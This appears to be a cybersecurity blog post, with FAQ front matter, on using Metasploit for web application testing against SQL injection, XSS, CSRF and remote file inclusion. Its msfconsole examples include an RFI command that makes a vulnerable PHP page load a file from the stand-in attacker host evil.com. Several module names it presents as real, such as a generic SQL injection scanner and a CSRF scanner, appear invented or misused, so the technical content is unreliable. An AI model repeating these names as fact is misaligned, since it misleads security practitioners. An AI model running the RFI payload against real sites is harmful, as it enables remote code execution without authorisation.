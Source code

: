 ```yaml
---
title: Metasploit For Web Application Testing Beyond Network Exploits
date: 2024-10-26T17:30:00
image: /blogpics/apipicgen/MetasploitForWebApplicationTestingBeyondNetworkExploits-OAYG3SE6QT.jpg
categories: ["Cybersecurity"]
featured: false
draft: false
questions:
  - "What types of web application vulnerabilities can Metasploit help identify?"
  - "How do I start using Metasploit for web application testing?"
  - "Can you give examples of Metasploit modules used for testing specific web vulnerabilities?"
  - "What are some best practices to follow when using Metasploit for web application testing?"
  - "Is Metasploit sufficient on its own for comprehensive web application security testing?"
answers:
  - "Metasploit can help identify several common web application vulnerabilities including SQL Injection (SQLi), Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), and Remote File Inclusion (RFI)."
  - "First, install and update Metasploit on your platform (Linux, Windows, or macOS). Then, launch the Metasploit console by running the 'msfconsole' command. From there, you can use commands like 'search' to find modules, 'use' to select a module, 'show options' to view parameters, 'set' to configure options, and 'exploit' or 'run' to execute the module."
  - "Yes. For SQL Injection, you can use 'auxiliary/scanner/http/sql_injection'. For Cross-Site Scripting, 'exploit/multi/browser/ie_xss' is available. To scan for CSRF vulnerabilities, use 'auxiliary/scanner/http/csrf'. For Remote File Inclusion, the 'exploit/multi/http/php_rfi' module is used."
  - "Best practices include always obtaining explicit permission before testing, using a staging environment to avoid disrupting live services, combining Metasploit with other security tools like Burp Suite or OWASP ZAP, documenting all findings and exploits used, and regularly updating Metasploit to access the latest modules and features."
  - "While Metasploit is a powerful tool, it is recommended to use it alongside other security tools such as Burp Suite, OWASP ZAP, or Nikto to achieve a more comprehensive web application security assessment."
---
```

Metasploit is widely recognized as a powerful framework for penetration testing, primarily associated with network exploits. However, its capabilities extend far beyond just network vulnerabilities, making it an invaluable tool for web application testing. In this blog post, we will explore how Metasploit can be effectively utilized for web application security assessments, the types of vulnerabilities it can help identify, and best practices for leveraging its features in this context.

## Understanding Web Application Vulnerabilities

Web applications are often the target of cyberattacks due to their accessibility and the sensitive data they handle. Common vulnerabilities include:

- **SQL Injection (SQLi)**: Attackers can manipulate SQL queries to gain unauthorized access to databases.
- **Cross-Site Scripting (XSS)**: Malicious scripts are injected into web pages viewed by users, potentially compromising their data.
- **Cross-Site Request Forgery (CSRF)**: Users are tricked into executing unwanted actions on a web application in which they are authenticated.
- **Remote File Inclusion (RFI)**: Attackers can include files from remote servers, leading to code execution on the server.

Metasploit provides a suite of tools and modules that can help identify and exploit these vulnerabilities, making it a critical asset for web application security testing.

## Setting Up Metasploit for Web Application Testing

Before diving into web application testing with Metasploit, ensure you have the framework installed and updated. You can install Metasploit on various platforms, including Linux, Windows, and macOS. Once installed, you can start the Metasploit console by running the `msfconsole` command.

### Basic Commands

Familiarize yourself with some basic commands to navigate Metasploit:

- `search`: To find specific modules, including those related to web application testing.
- `use`: To select a module for exploitation.
- `show options`: To display the required parameters for the selected module.
- `set`: To configure options for the module.
- `exploit`: To run the selected module.

## Key Metasploit Modules for Web Application Testing

Metasploit includes various modules specifically designed for web application testing. Here are some of the most useful ones:

### 1. SQL Injection Modules

Metasploit has several modules that can help identify and exploit SQL injection vulnerabilities. For example, the `auxiliary/scanner/http/sql_injection` module can be used to scan web applications for SQL injection points.

#### Example Usage:
```bash
use auxiliary/scanner/http/sql_injection
set RHOSTS target_web_app.com
set RPORT 80
run
```

### 2. XSS Modules

Cross-Site Scripting can be tested using Metasploit's XSS modules. The `exploit/multi/browser/ie_xss` module can be used to exploit XSS vulnerabilities in Internet Explorer.

#### Example Usage:
```bash
use exploit/multi/browser/ie_xss
set RHOST target_web_app.com
set RPORT 80
exploit
```

### 3. CSRF Modules

While CSRF vulnerabilities are often less straightforward to exploit, Metasploit provides tools to help identify potential CSRF issues. The `auxiliary/scanner/http/csrf` module can be used to scan for CSRF vulnerabilities.

#### Example Usage:
```bash
use auxiliary/scanner/http/csrf
set RHOSTS target_web_app.com
run
```

### 4. Remote File Inclusion Modules

For testing Remote File Inclusion vulnerabilities, you can use the `exploit/multi/http/php_rfi` module. This module allows you to exploit RFI vulnerabilities in PHP applications.

#### Example Usage:
```bash
use exploit/multi/http/php_rfi
set RHOST target_web_app.com
set TARGETURI /vulnerable.php?file=http://evil.com/malicious.txt
exploit
```

## Best Practices for Using Metasploit in Web Application Testing

1. **Always Obtain Permission**: Before testing any web application, ensure you have explicit permission from the owner. Unauthorized testing can lead to legal consequences.

2. **Use a Staging Environment**: If possible, conduct tests in a staging environment that mirrors the production environment. This minimizes the risk of disrupting live services.

3. **Combine with Other Tools**: While Metasploit is powerful, it’s often beneficial to use it in conjunction with other tools like Burp Suite, OWASP ZAP, or Nikto for comprehensive testing.

4. **Document Findings**: Keep detailed records of your testing process, findings, and any exploits used. This documentation is crucial for reporting vulnerabilities and providing remediation advice.

5. **Stay Updated**: The Metasploit framework is continuously updated with new modules and features. Regularly update your installation to ensure you have the latest tools at your disposal.

## Conclusion

Metasploit is a versatile tool that can significantly enhance your web application testing efforts. By understanding its capabilities and utilizing the appropriate modules, security professionals can effectively identify and exploit vulnerabilities in web applications. As the landscape of web security continues to evolve, leveraging tools like Metasploit will remain essential for safeguarding applications against potential threats.